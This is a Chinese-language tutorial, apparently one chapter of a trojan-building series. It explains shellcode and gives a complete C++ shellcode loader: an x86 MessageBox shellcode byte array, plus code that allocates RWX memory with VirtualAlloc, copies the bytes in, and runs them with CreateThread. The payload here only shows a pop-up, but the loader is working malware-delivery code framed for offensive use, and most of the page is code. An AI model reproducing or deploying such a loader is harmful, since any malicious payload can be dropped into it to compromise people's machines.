

# Shellcode - 木马的心脏

## 🎯 我们的目标：让 Shellcode 跑起来！ {#我们的目标让-shellcode-跑起来}

在上一章中，我们知道 Shellcode 是一段纯粹的机器指令（我们的“子弹”），而 **Loader**（我们的“枪”）就是负责将它送入内存并执行的程序。

对于入门级实验，我们将使用攻防领域的“Hello World”——一段能够弹出 Windows 提示框 (MessageBox) 的 Shellcode，来验证我们的 Loader 是否有效。

---

### 1. 🛠️ 准备你的“子弹”（Shellcode） {#h-1-️-准备你的子弹shellcode}

Shellcode 的格式与你的程序架构（32位/x86或64位/x64）必须严格匹配！

我们使用一段常见的 **32位 (x86)** 弹窗 Shellcode 作为例子，这段代码的功能是调用 Windows API `MessageBoxA`：

```c
// 这是一个常见的 x86 MessageBox Shellcode
// 长度：199 字节 (bytes)
unsigned char shellcode[] = {
    0x33, 0xc9, 0x64, 0x8b, 0x49, 0x30, 0x8b, 0x49, 0x0c, 0x8b,
    0x49, 0x1c, 0x8b, 0x59, 0x08, 0x8b, 0x41, 0x20, 0x8b, 0x09,
    0x80, 0x78, 0x0c, 0x33, 0x75, 0xf2, 0x8b, 0xeb, 0x03, 0x6d,
    0x3c, 0x8b, 0x6d, 0x78, 0x03, 0xeb, 0x8b, 0x45, 0x20, 0x03,
    0xc3, 0x33, 0xd2, 0x8b, 0x34, 0x90, 0x03, 0xf3, 0x42, 0x81,
    0x3e, 0x47, 0x65, 0x74, 0x50, 0x75, 0xf2, 0x81, 0x7e, 0x04,
    0x72, 0x6f, 0x63, 0x41, 0x75, 0xe9, 0x8b, 0x75, 0x24, 0x03,
    0xf3, 0x66, 0x8b, 0x14, 0x56, 0x8b, 0x75, 0x1c, 0x03, 0xf3,
    0x8b, 0x74, 0x96, 0xfc, 0x03, 0xf3, 0x33, 0xff, 0x57, 0x68,
    0x61, 0x72, 0x79, 0x41, 0x68, 0x4c, 0x69, 0x62, 0x72, 0x68,
    0x4c, 0x6f, 0x61, 0x64, 0x54, 0x53, 0xff, 0xd6, 0x33, 0xc9,
    0x57, 0x66, 0xb9, 0x33, 0x32, 0x51, 0x68, 0x75, 0x73, 0x65,
    0x72, 0x54, 0xff, 0xd0, 0x57, 0x68, 0x6f, 0x78, 0x41, 0x01,
    0xfe, 0x4c, 0x24, 0x03, 0x68, 0x61, 0x67, 0x65, 0x42, 0x68,
    0x4d, 0x65, 0x73, 0x73, 0x54, 0x50, 0xff, 0xd6, 0x57, 0x68,
    0x72, 0x6c, 0x64, 0x21, 0x68, 0x6f, 0x20, 0x57, 0x6f, 0x68,
    0x48, 0x65, 0x6c, 0x6c, 0x8b, 0xcc, 0x57, 0x57, 0x51, 0x57,
    0xff, 0xd0, 0x57, 0x68, 0x65, 0x73, 0x73, 0x01, 0xfe, 0x4c,
    0x24, 0x03, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x68, 0x45, 0x78,
    0x69, 0x74, 0x54, 0x53, 0xff, 0xd6, 0x57, 0xff, 0xd0
};
```

---

### 2. 🧩 加载器的“标准三步走”（核心原理） {#h-2-加载器的标准三步走核心原理}

我们的 Loader 只需要调用三个关键的 Windows API 函数：

1. **找地皮（申请内存）：`VirtualAlloc`**
    - **目标：** 向操作系统申请一块**可读、可写、可执行（RWX）**的内存区域。
    - **原因：** Windows 的安全机制（DEP）通常阻止在非执行内存上运行代码。我们必须明确告诉系统：“我这块内存是用来运行代码的！”
2. **搬家具（写入数据）：`RtlMoveMemory`**
    - **目标：** 将上面定义的 `shellcode[]` 数组，复制到 `VirtualAlloc` 申请的那块内存地址中。
3. **剪彩（执行代码）：`CreateThread`**
    - **目标：** 创建一个新的线程，并把它的起始执行点 (`LPTHREAD_START_ROUTINE`) 指向我们刚刚写入 Shellcode 的内存地址。

---

### 3. 💻 完整代码实现 (C++) {#h-3-完整代码实现-c}

打开你的 Visual Studio，创建一个 **C++ 控制台应用**。

**【重要配置】**：确保你的项目配置选择了 **`x86`**，因为示例 Shellcode 是 32 位的。

```cpp
#include <windows.h>
#include <stdio.h>

// 示例的 32 位 MessageBox Shellcode
unsigned char shellcode[] = {
    0x33, 0xc9, 0x64, 0x8b, 0x49, 0x30, 0x8b, 0x49, 0x0c, 0x8b,
    0x49, 0x1c, 0x8b, 0x59, 0x08, 0x8b, 0x41, 0x20, 0x8b, 0x09,
    0x80, 0x78, 0x0c, 0x33, 0x75, 0xf2, 0x8b, 0xeb, 0x03, 0x6d,
    0x3c, 0x8b, 0x6d, 0x78, 0x03, 0xeb, 0x8b, 0x45, 0x20, 0x03,
    0xc3, 0x33, 0xd2, 0x8b, 0x34, 0x90, 0x03, 0xf3, 0x42, 0x81,
    0x3e, 0x47, 0x65, 0x74, 0x50, 0x75, 0xf2, 0x81, 0x7e, 0x04,
    0x72, 0x6f, 0x63, 0x41, 0x75, 0xe9, 0x8b, 0x75, 0x24, 0x03,
    0xf3, 0x66, 0x8b, 0x14, 0x56, 0x8b, 0x75, 0x1c, 0x03, 0xf3,
    0x8b, 0x74, 0x96, 0xfc, 0x03, 0xf3, 0x33, 0xff, 0x57, 0x68,
    0x61, 0x72, 0x79, 0x41, 0x68, 0x4c, 0x69, 0x62, 0x72, 0x68,
    0x4c, 0x6f, 0x61, 0x64, 0x54, 0x53, 0xff, 0xd6, 0x33, 0xc9,
    0x57, 0x66, 0xb9, 0x33, 0x32, 0x51, 0x68, 0x75, 0x73, 0x65,
    0x72, 0x54, 0xff, 0xd0, 0x57, 0x68, 0x6f, 0x78, 0x41, 0x01,
    0xfe, 0x4c, 0x24, 0x03, 0x68, 0x61, 0x67, 0x65, 0x42, 0x68,
    0x4d, 0x65, 0x73, 0x73, 0x54, 0x50, 0xff, 0xd6, 0x57, 0x68,
    0x72, 0x6c, 0x64, 0x21, 0x68, 0x6f, 0x20, 0x57, 0x6f, 0x68,
    0x48, 0x65, 0x6c, 0x6c, 0x8b, 0xcc, 0x57, 0x57, 0x51, 0x57,
    0xff, 0xd0, 0x57, 0x68, 0x65, 0x73, 0x73, 0x01, 0xfe, 0x4c,
    0x24, 0x03, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x68, 0x45, 0x78,
    0x69, 0x74, 0x54, 0x53, 0xff, 0xd6, 0x57, 0xff, 0xd0
};

int main() {
    printf("[*] 正在申请 RWX 内存...\n");

    // 1. 申请内存
    LPVOID exec_mem = VirtualAlloc(
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE  // <-- 这是主要的特征点！
    );

    if (exec_mem == NULL) {
        printf("[-] 内存分配失败！\n");
        return -1;
    }
    printf("[+] 内存分配成功，地址: 0x%p\n", exec_mem);

    // 2. 复制 Shellcode
    RtlMoveMemory(exec_mem, shellcode, sizeof(shellcode));
    printf("[+] Shellcode 已写入内存\n");

    // 3. 执行代码
    HANDLE hThread = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)exec_mem,
        NULL,
        0,
        NULL
    );

    if (hThread == NULL) {
        printf("[-] 线程创建失败！\n");
        return -1;
    }
    printf("[+] 线程已创建，等待弹窗...\n");

    // 等待子线程执行完毕，防止主程序提前退出
    WaitForSingleObject(hThread, INFINITE);

    return 0;
}
```

---

### 4. 🧪 运行结果 {#h-4-运行结果}

运行你编译好的 `.exe` 文件：

如果一切顺利，你会看到一个弹出窗口。恭喜，你成功地在内存中执行了你的第一段恶意代码（尽管它只是弹了个窗）。


